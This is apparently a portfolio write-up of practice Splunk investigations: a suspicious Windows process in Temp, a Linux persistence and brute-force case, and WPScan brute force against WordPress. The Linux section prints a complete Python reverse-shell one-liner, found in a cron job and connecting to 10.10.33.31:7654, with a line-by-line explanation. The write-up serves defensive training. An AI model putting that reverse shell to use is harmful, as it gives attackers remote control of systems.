


# Log Analysis & Threat Detection with SIEM (Splunk)

## Windows Log Analysis (Practice Scenario)
**Scenario:** I investigated an alert about a suspicious network connection on port 5678 from host WIN-105.
  
  

From the query results, the IP address that the connection was established with was 10.10.114.80 (the destinationIP).
Sharepoint.exe was the process that initiated that suspicious connected as the image field with eventcode=3 shows the full path of the process: Image: C:\Windows\Temp\SharePoInt.exe

Since I know the process that initiated this suspicious connection, I can extract the MD5 hash values to fingerprint a malicious binary 

**Findings:** EventCode 3 logs revealed outbound traffic initiated by Sharepoint.exe to a remote IP. The process hash was extracted and identified as malicious.
**Recommendations:** 
- Block/hash‑ban `SharePoInt.exe` hash across EDR/AV; quarantine artifact from `%SystemRoot%\Temp`.
- Constrain execution from `Temp` directories (AppLocker/WDAC).  
- Alert on Sysmon **Event ID 3** for unusual destinations/ports and **Event ID 1** for process creation from temp.

## Linux Log Analysis (Practice Scenario)
**Scenario**
I received an alert indicating possible persistence through the creation of a new remote-SSH user on an Ubuntu server. My task is to investigate the logs in Splunk (index=task5) and determine exactly what occurred.

Time stamp of the remote-ssh account creation: 08/12/25 9:52:57.170 AM (useradd remote-ssh)
  

User Escalating Privileges: jack-brown (successfully escalated to root)
  

Now i will use process-sshd to find the ip address of the user who escalated privileges to root (jack brown) and look  for SSHD “Accepted password” logs in auth.log
  

The second event shows : sshd[25955]: Accepted password for jack-brown from 10.14.94.82 port 54451 ssh2, showing the source IP to be 10.14.94.82

There were 4 failed login attempts before the successful login, which also list the same source IP (10.14.94.82)

During Linux log analysis, I identified a malicious cron job configured with a Python reverse shell. The code attempted to establish a persistent outbound connection to the attacker at IP 10.10.33.31 on port 7654. This confirmed the persistence mechanism was set to maintain remote access via reverse shell.

**The Splunk query was:**

index=task5 source="syslog" process=CRON

This pulled log entries related to scheduled jobs (cron tasks). Cron is often abused by attackers for persistence because it executes commands at intervals.

The log output contains a suspicious cron job that executes Python one-liners:

python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
s.connect(("10.10.33.31",7654)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); 
p=subprocess.call(["/bin/sh","-i"]);'

**Breakdown of python one-liner:**

socket.socket(...) → Creates a network socket.

s.connect(("10.10.33.31",7654)) → Connects to IP 10.10.33.31 on port 7654.

os.dup2(s.fileno(),0/1/2) → Redirects standard input, output, and error to the socket (so the attacker can control the shell remotely).

subprocess.call(["/bin/sh","-i"]) → Spawns an interactive shell.

**Findings**
Remote-SSH Account Creation: 2025-08-12 09:52:57
User Escalating Privileges: jack-brown (successfully escalated to root)
Source IP: 10.14.94.82
Failed Login Attempts Prior to Success: 4
Persistence Mechanism Port: 7654

**Analysis**
This activity demonstrated persistence via creation of a new SSH user, followed by brute-force attempts and successful privilege escalation to root. By correlating login timestamps, user actions, and source IP addresses, I confirmed malicious activity and documented indicators of compromise (IOC).

**Recommendations:** 
- Enforce **SSH key‑based auth**, disable password auth; limit to allow‑listed IPs with `sshd_config` + firewall.
- Monitor `useradd`, `/etc/passwd` diffs, and `/etc/sudoers` changes; alert on new admin users.
- Audit **cron**: lock down `/etc/crontab`, `/etc/cron.*`, and user crontabs; baseline and alert on changes.
- Egress filtering: block outbound to **10.10.33.31:7654** and similar high‑risk ports.

## Web Log Analysis (Practice Scenario)
**Scenario**
I received an alert about a spike in activity on the organization’s web server. My task was to investigate web logs (index=task6) in Splunk to determine the source, nature, and classification of the activity.
Looking for URI path that had the highest number of requests, path/wp-login.php had the highest, at 905 requests. Since there’s 905 requests, this is likely to be a brute force attack:
  

Identified the IP Address that was the source of the activity connected to /wp-login.php as 10.10.243.134 as shown through the clientip as well as the tool the threat actor used via useragent, identified as WPScan :

**Findings**
URI Path with Highest Requests: /wp-login.php
Source IP Address: 10.10.243.134
Classification: Brute-force attack targeting WordPress login endpoint
Threat Actor Tool: WPScan (identified via user-agent string in the logs)

**Analysis**
This attack represented a credential brute-force attempt against the WordPress login portal. By correlating repeated requests to /wp-login.php from the same source IP and identifying the user-agent string belonging to WPScan, I confirmed the activity as automated brute forcing.

**Response Recommendation**
- Rate‑limit `/wp-login.php`, enable **MFA** and **account lockout**.
- Deploy **WAF** rules for brute‑force patterns; 
- Keep WordPress & plugins patched; consider CAPTCHA on login.

## Indicators of Compromise (IOCs)
